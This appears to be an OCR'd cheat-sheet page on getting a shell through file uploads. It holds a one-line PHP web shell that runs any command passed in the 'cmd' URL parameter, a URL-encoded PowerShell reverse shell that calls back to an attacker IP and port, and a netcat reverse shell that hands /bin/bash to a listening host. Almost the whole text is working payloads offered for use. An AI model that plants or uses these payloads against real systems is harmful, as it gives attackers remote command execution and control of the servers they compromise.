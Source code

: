 upload to: file uploads, HTML form, URL, etc

php (linux or windows)

```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

```
<h5>windows target</h5>

**powershell:**

`powershell%20-c%20%22%24client%20%3D%20New-Object%20System``.``Net``.``Sockets``.``TCPClient%28%27<IP>``%``27%2C<PORT>``%``29%3B%24stream%20%3D%20%24client``.``GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200``..``65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream``.``Read%28%24bytes%2C%200%2C%20%24bytes``.``Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System``.``Text``.``ASCIIEncoding%29``.``GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29``.``Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext``.``encoding%5D%3A%3AASCII%29``.``GetBytes%28%24sendback2%29%3B%24stream``.``Write``%``28%24sendbyte%2C0%2C%24sendbyte``.``Length%29%3B%24stream``.``Flush%28%29%7D%3B%24client``.``Close%28%29%22`

**linux target**

`nc <lhost> <lport> -e /bin/bash`